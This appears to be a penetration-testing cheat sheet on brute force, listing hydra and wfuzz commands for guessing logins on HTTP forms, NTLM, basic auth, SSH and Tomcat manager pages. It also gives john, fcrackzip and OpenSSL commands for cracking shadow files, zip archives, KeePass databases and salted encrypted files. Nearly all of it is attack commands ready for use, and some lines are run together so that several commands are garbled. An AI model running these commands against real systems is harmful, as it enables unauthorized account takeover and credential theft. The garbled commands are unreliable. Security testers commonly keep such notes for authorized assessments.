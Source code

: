 # **Brute Force**

​

## **Weak Credentials <a href="#weak-credentials" id="weak-credentials"></a>**

**HTTP Brute Force**

* wfuzz POST

`wfuzz --hc 404 -c -z list,admin -z file,/root/Documents/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://ip/admin/index.php`

* hydra POST

`hydra ip -s 80 http-form-post "/admin/index.php:user=^USER^&password=^PASS^:Moved Temporarily" -l admin -P /root/Documents/SecLists/Passwords/korelogic-password.txt -t 20`

* wfuzz NTLM

`wfuzz -c --ntlm "admin:FUZZ" -z file,/root/Documents/SecLists/Passwords/darkc0de.txt --hc 401 https:///api`

* wfuzz Basic Auth through Proxy

`wfuzz -c --hc 404,400,401 -z file,/root/Documents/Audits/Activos/names.txt -z file,/root/Documents/Audits/Activos/names.txt --basic "FUZZ:FUZ2Z" -p 127.0.0.1:8080 https:///api/v1/`

**Password Cracking**

* zip

`fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt file.zip`

* /etc/shadow

```
unshadow passwd shadow > passwordsjohn --wordlist=/usr/share/wordlists/rockyou.txt passwords
```

* keepass

```
keepass2john /root/Desktop/NewDatabase.kdb > filejohn -incremental:alpha -format=keepass file
```

* Bruteforce Salted

```
for j in $(cat cipher); do echo $j; for i in $(cat digestion); do /root/Documents/HTB/Hawk/bruteforce-salted-openssl/bruteforce-salted-openssl -t 10 -f /usr/share/wordlists/rockyou.txt -c $j -d $i ../miau.txt -1 2>&1 | grep "candidate" ; done ; done
```

```
openssl aes-256-cbc -d -in ../miau.txt -out result.txt -k friends
```

Port 22

```
hydra -f -V -t 1 -C /usr/share/SecLists-5c9217fe8e930c41d128aacdc68cbce7ece96e4f/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt -s 22 $IP ssh​
```

Hydra for login bypass

```
Hydra for login bypass:hydra http://XXXX http-form-post "/TARGETPATH/TARGETPAGE.php:user=^USER^&pass=^PASS^:Bad login" -L users.txt -P pass.txthrydra -C /seclist/tomcat-betterdefaultpasslist http-get://ip:port/manager/htmlhydra -C /root/attacker-framework/SecLists/Passwords/Default-Cr edentials/tomcat-betterdefaultpasslist.txt http-get://ip:8080/manager/html
```

Zip file Bruteforce

```
 fcrackzip -D -v -u -p /usr/share/wordlists/rockyou.txt backup.zip​
```

John

```
 john --wordlist=/usr/share/wordlists/rockyou.txt keepass-hash.txt​
```
